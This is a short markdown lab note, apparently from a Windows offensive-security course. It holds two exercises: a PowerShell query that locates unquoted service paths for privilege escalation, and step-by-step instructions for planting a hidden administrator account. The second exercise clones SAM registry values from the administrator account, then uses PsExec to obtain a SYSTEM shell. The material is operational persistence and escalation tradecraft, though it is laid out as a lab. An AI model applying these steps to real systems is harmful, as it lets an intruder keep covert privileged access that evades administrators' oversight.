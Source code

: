 # Lab2
---
## Lab 2_1 find the unquoated service
- get-wmiobject win32_service | ?{$_.pathname -match <mark>"^`"{0,1}(C|c):*\\.*\s+.*\\.*"</mark>} | select Name, Pathname, State, ProcessID
- get-acl

---
## Lab2__2 Hidden account
1. net user goodman$ <passwd> /add
1. Export regedit 
    1. sam\domains\account\users\names\goodman$ as name.reg
    1. sam\domains\account\users\<admimistratorID> as source.reg
    1. sam\domains\account\users\<goodman$ID> as target.reg
1. Delete goodman$ account
1. Copy F=hex value from source.reg to target.reg
1. Import name and target reg
    1. regedit /s <xxx>.reg
1. Us PSexec to get system cmd
    1. psexec -u hidden$ -p <passwd> cmd
    1. psexec -i-s cmd
